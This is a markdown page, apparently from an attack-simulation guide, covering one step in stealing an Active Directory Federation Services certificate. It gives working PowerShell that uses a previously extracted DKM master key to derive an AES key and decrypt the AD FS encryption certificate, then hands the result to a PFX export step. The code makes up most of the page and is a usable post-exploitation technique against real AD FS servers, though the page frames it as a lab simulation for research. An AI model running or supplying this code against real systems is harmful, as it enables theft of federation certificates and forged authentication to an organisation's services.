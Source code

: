 # Decrypt Active Directory Federation Services (AD FS) Encryption Certificate

After [extracting the AD FS encryption certificate](extractADFSEncryptionCertificate.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the master key value to derive a symmetric key and decrypt the AD FS certificate.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we exported AD FS certificates (token signing and encryption) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell commands below as the variable `$key`.
    * AD FS encryption certificate (Encrypted format)
        * After [extracting the AD FS encryption certificate](extractADFSEncryptionCertificate.md), the output is saved to the variable `$encEncryptionPfx`. You can use it in the PowerShell commands below.

## Decrypt Encryption Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$encryptionPfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

## Output

Use the variable `$encryptionPfx` (cipher text) in the next step to [export the AD FS encryption certificate as a PFX file](exportADFSEncryptionCertAsPfxFile.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
